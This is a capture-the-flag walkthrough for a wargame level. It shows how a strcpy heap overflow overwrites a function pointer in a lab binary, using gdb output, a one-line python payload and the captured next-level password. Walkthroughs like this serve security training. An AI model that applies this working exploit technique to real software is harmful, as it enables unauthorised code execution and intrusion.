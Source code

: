 # Level 06 Walkthrough

## Binary analysis

The binary allocates two buffers with `malloc`: one for a string (0x40 bytes) and one for a function pointer (4 bytes). The function pointer is initialized to `m()`, which just prints "Nope". The user input (argv[1]) is copied into the string buffer with `strcpy`, which is vulnerable to overflow. After the copy, the function pointer is called. If we overflow the string buffer, we can overwrite the function pointer to point to `n()`, which calls `system("/bin/cat /home/user/level7/.pass")`.

Relevant code:
```
0804848c        char* str = malloc(bytes: 0x40)
0804849c        int32_t (** table)() = malloc(bytes: 4)
080484ae        *table = m
080484c5        strcpy(str, argv[1])
080484d3        return (*table)()

n() at 0x08048454: system("/bin/cat /home/user/level7/.pass")
m() at 0x08048468: puts("Nope")
```

## Exploitation

We find the address returned by `malloc` for the string buffer and the function pointer:

```
(gdb) b *0x08048491
Breakpoint 1 at 0x8048491
(gdb) b*0x080484a1
Breakpoint 2 at 0x80484a1
(gdb) r hello
Starting program: /home/user/level6/level6 hello

Breakpoint 1, 0x08048491 in main ()
(gdb) p/x $eax
$2 = 0x804a008
(gdb) c
Continuing.

Breakpoint 2, 0x080484a1 in main ()
(gdb) p/x $eax
$3 = 0x804a050
```

We overflow the string buffer to overwrite the function pointer with the address of `n()` (0x08048454).

We generate the payload with the offset between the string buffer and the function pointer, and the address of `n()`.

## Commands used

```
./level6 $(python -c 'print(b"A" * (0x804a050 - 0x804a008) + b"\x08\x04\x84\x54"[::-1])')
```

## Result

After running the exploit, we get the password for level7:

```
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
